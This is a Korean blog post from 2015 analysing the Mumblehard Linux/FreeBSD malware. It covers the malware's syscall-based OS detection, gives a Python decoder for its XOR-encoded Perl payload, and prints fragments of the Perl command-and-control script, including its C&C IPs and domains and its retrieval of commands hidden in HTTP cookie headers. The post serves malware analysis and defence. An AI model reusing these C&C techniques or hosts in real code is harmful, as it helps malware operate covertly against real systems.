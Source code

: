 ```yaml
---
layout: post
title: Mumblehard 악성코드의 몇가지 특징
date: 2015-05-21 15:21:51.000000000 +09:00
type: post
published: true
status: publish
categories:
- Malware Analysis
tags:
- freebsd
- Linux
- malware
- malware analysis
- mumblehard
author:
  login: n0fate
  email: rapfer@gmail.com
  display_name: n0fate
  first_name: ''
  last_name: ''
---
```

<p>mumblehard는 ESET에서 관리하는 블로그인 WeLiveSecurity를 통해 알려진 악성코드로 Linux와 FreeBSD를 둘 다 지원하는 멀티플랫폼 악성코드이다. <a href="http://www.welivesecurity.com/wp-content/uploads/2015/04/mumblehard.pdf" target="_blank">ESET에 있는 보고서</a>가 잘 정리되어 있으니 그 내용을 참조하기 바라며, 이 글에선 필자가 흥미롭게 본 부분만 정리한다. (사실 길게 쓰기 귀찮다..)<br />
<a href="#mumblehard-특징-정리" name="mumblehard-특징-정리"></a></p>
<p><strong>특징</strong></p>
<ul>
<li>멀티 플랫폼 지원(Linux/BSD)</li>
<li>인코딩 기법</li>
<li>펄 스크립트 C&amp;C</li>
</ul>
<h2 id="멀티-플랫폼-지원(linux/bsd)"><a href="#멀티-플랫폼-지원(linux/bsd)" name="멀티-플랫폼-지원(linux/bsd)"></a>멀티 플랫폼 지원(Linux/BSD)</h2>
<p>이 악성코드는 ELF 바이너리를 배포했음에도 여러 운영체제를 지원하도록 구성되어 있다. 일단 임포트하는 라이브러리가 하나도 없으며, 모든 코드가 직접적으로 시스템 콜을 호출하는 형태로 되어 있다. 리눅스 운영체제가 배포판 종류 및 버전에 따라 별도의 빌드가 필요한 것을 생각해봤을 때 다수의 리눅스 배포판에 효과적으로 배포가 가능하다고 볼 수 있다.<br />
이 외에도 재미있는 점은 운영체제 환경이 리눅스인지 BSD인지 확인하여 OS에 따라 다른 행동을 하도록 구성했다는 점이다. 예를 들어, 악성코드 시작 코드를 보자.</p>
<pre><code>LOAD:0804804C                                   public start
LOAD:0804804C                   start           proc near
LOAD:0804804C 89 25 0D 9A 04 08                 mov     MainStackPointer, esp
LOAD:08048052 B8 0D 00 00 00                    mov     eax, SYS_time   ; BSD : fchdir(stdin)
LOAD:08048052                                                           ; Linux : time(NULL)
LOAD:08048057 31 DB                             xor     ebx, ebx
LOAD:08048059 53                                push    ebx
LOAD:0804805A 50                                push    eax
LOAD:0804805B CD 80                             int     80h             ; syscall(SYS_time);
LOAD:0804805D 73 02                             jnb     short loc_8048061
LOAD:0804805F F7 D8                             neg     eax
LOAD:08048061
LOAD:08048061                   loc_8048061:                            ; CODE XREF: start+11j
LOAD:08048061 90                                nop
LOAD:08048062 90                                nop
LOAD:08048063 81 C4 08 00 00 00                 add     esp, 8
LOAD:08048069 3D 00 00 00 00                    cmp     eax, 0
LOAD:0804806E 7C 07                             jl      short isBSD
LOAD:08048070 B0 03                             mov     al, OS_LINUX
LOAD:08048072 E9 02 00 00 00                    jmp     loc_8048079
LOAD:08048077                   ; ---------------------------------------------------------------------------
LOAD:08048077
LOAD:08048077                   isBSD:                                  ; CODE XREF: start+22j
LOAD:08048077 B0 09                             mov     al, OS_BSD
LOAD:08048079
LOAD:08048079                   loc_8048079:                            ; CODE XREF: start+26j
LOAD:08048079 A2 11 9A 04 08                    mov     OSType, al
</code></pre>
<p>이 코드를 보면, 시스템 콜 13번(SYS_time)을 실행하는 것을 볼 수 있다. 이 콜은 운영체제에 따라 다른 기능을 수행하는데, Linux인 경우에는 시간 정보를 가져오는 time을 실행하고, BSD라면, fchdir 함수가 실행된다. 재미있는 점은 이 두 개의 호출이 다른 결과를 가져온다는 것이다. 예를 들어 위의 코드를 C로 구성해보면 다음과 같다.</p>
<pre><code>int ret = syscall(13, 0);
if ret &lt; 0:
    OSType = ISBSD;
else:
    OSType = ISLINUX;
</code></pre>
<p>BSD의 경우에 13번 fchdir은 두 번째 인자를 0을 받으면, fchdir(stdin)을 실행하고 그 결과를 준다. stdin을 입력으로 받으면 시스템 콜이 실패(-1)하고 디렉터리가 아니다(ENOTDIR, -20)이라는 에러 정보를 가진다. Linux라면, time(NULL)을 성공적으로 실행하여 현재 시간 정보를 int 형으로 돌려준다. 즉, 양수가 된다.<br />
이런 결과를 토대로 운영체제를 판단한 후, 임무 수행 시 각 운영체제마다 다른 시스템 콜 호출을 수행하도록 구성하였다.</p>
<h2 id="악성코드-디코더"><a href="#악성코드-디코더" name="악성코드-디코더"></a>악성코드 디코더</h2>
<p>Custom XOR을 사용했으며, 총 2개의 데이터를 복호화한다. 하나는 perl의 경로인 ‘/usr/bin/perl’이며, 다른 하나는 펄스크립트 코드이다. 복호화 코드는 다음과 같다.</p>
<pre><code>import struct

def xorl(nbytes, buffer):
    base = 4
    size = 16
    offset = 0
    result = ''
    while nbytes:
        if base == size:
            if size == 128:
                size = 0
            size += 16
            base = 1

        result += chr(int(buffer[offset]) ^ base)
        base += 1
        nbytes -= 1
        offset += 1
    return result

# /usr/bin/perl
buf = [0x2B, 0x70, 0x75, 0x75, 0x27, 0x6B, 0x63, 0x65, 0x23, 0x7D, 0x6B, 0x7D, 0x6D, 0x00]
print xorl(0x0D, buf)

# Perl script for command and control server
f = open('dump_perl_code', 'rb')
buf = f.read()

buflist = []
for i in buf:
    buflist.append(int(struct.unpack('=b', i)[0]))

f.close()

print xorl(0x1706, buflist)
</code></pre>
<p>디코딩 된 펄 코드는 C&amp;C 통신을 수행하며, HTTP 헤더에 있는 ‘Set-Cookie’ 필드에 PHPSESSIONID 뒤의 값을 이용하여 데이터 통신을 수행한다. 내부 정보는 Predefine된 구조체 형태로 되어 있으며, 인코딩되어 전송한다. 디코더는 펄 스크립트에 있으며, 코드는 다음과 같다.</p>
<pre><code>sub xorl {
    my ( $line, $code, $xor, $lim ) = ( shift, "", 1, 16 );
    foreach my $chr ( split( //, $line ) ) {
        if ( $xor == $lim ) { $lim = 0 if $lim == 256; $lim += 16; $xor = 1; }
        $code .= pack( "C", unpack( "C", $chr ) ^ $xor );
        $xor++;
    }
    return $code;
}
</code></pre>
<h2 id="펄-스크립트-c&amp;c"><a href="#펄-스크립트-c&amp;c" name="펄-스크립트-c&amp;c"></a>펄 스크립트 C&amp;C</h2>
<p>앞서 잠깐 언급한 것처럼 펄 스크립트는 C&amp;C와 통신하여 실제 명령을 수행하는 역할을 한다. 재밌는 점은 해당 스크립트에는 윈도 환경도 고려되어 있는 것 같다.</p>
<pre><code>if ( $^O eq "linux" )   { $ewblock = 11;    $eiprogr = 115; }
if ( $^O eq "freebsd" ) { $ewblock = 35;    $eiprogr = 36; }
if ( $^O eq "MSWin32" ) { $ewblock = 10035; $eiprogr = 10036; }
</code></pre>
<p>통신은 HTTP 패킷의 헤더에 정보를 은닉하여 수발신하도록 구성되어 있다. 코드 자체가 난독화되어 있진 않기 때문에 쉽게 분석할 수 있다. C&amp;C 접속에 사용된 URL/IP는 다음과 같다.</p>
<pre><code>my $url = [
    "184.106.208.157",     "194.54.81.163",
    "advseedpromoan.com",  "50.28.24.79",
    "67.221.183.105",      "seoratingonlyup.net",
    "advertise.com",       "195.242.70.4",
    "pratioupstudios.org", "behance.net"
];
</code></pre>
<p>HTTP Request 패킷은 기본적인 구조를 가지고 있다.</p>
<pre><code>    my $buffer  = join( "x0Dx0A",
        "GET $path HTTP/1.1",
        "Host: $host",
"User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:7.0.1) Gecko/$gecko Firefox/7.0.1",
"Accept: text/html,application/xhtml+xml,application/xml;q=0.8,*/*;q=0.9",
        "Accept-Language: en-us,en;q=0.5",
        "Accept-Encoding: gzip, deflate",
        "Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7",
        "Connection: close",
        "x0Dx0A" );
</code></pre>
<p>할 일은 PHPSESSID 뒤에 붙은 인코딩된 문자열을 디코딩하여 수행한다.</p>
<pre><code>    if ( open( F, "&lt;", $header ) ) {
        flock F, 1;
        my ( $test, $task ) = ( 0, "" );
        while (&lt;F&gt;) {
            s/^s*([^s]?.*)$/$1/;
            s/^(.*[^s])s*$/$1/;
            next unless length $_;
            $test++ if $_ eq "HTTP/1.0 200 OK" || $_ eq "Connection: close";
            $task = $1 if /^Set-Cookie: PHPSESSID=([^;]+)/;    // 값 추출
        }
        close F;
        ( $link, $file, $id, $command, $timeout ) = &amp;decd($task)    // 디코딩
          if $test == 2 &amp;&amp; length $task;
    }
</code></pre>
<p><span style="font-size: 10px;"><em>Featured Image Source : https://www.flickr.com/photos/barmala/2561602478/in/photostream/</em></span></p>
